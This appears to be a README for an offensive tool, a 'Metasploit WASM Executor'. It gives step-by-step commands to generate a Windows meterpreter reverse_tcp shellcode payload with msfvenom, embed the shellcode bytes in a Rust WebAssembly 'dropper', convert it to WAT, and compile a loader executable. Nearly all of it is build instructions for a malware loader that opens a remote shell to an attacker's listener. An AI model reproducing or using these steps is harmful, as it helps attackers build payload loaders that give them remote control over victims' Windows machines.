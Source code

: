 # Metasploit WASM Executor

## Dependencies
```sh
cargo install wasm-pack
```

## Install `Wasm2Wat` Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
```

## Install `Wasm2Wat` Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
tar -xzf wabt.tar.gz
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP ADDR> LPORT=<LISTNER PORT> -f rust
```

- Copy the output from that command into `./wasm_dropper/src/lib.rs` 
- Name it `WASM_MEMORY_BUFFER` and change the const to be static
- `WASM_MEMORY_BUFFER` should have the following signature:

```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using `wasm2wat`
```sh
./wabt/bin/wasm2wat.exe ./wasm_dropper/target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

## The Loader Binary is now in `./wasm_loader/target/release/wasm_loader.exe`
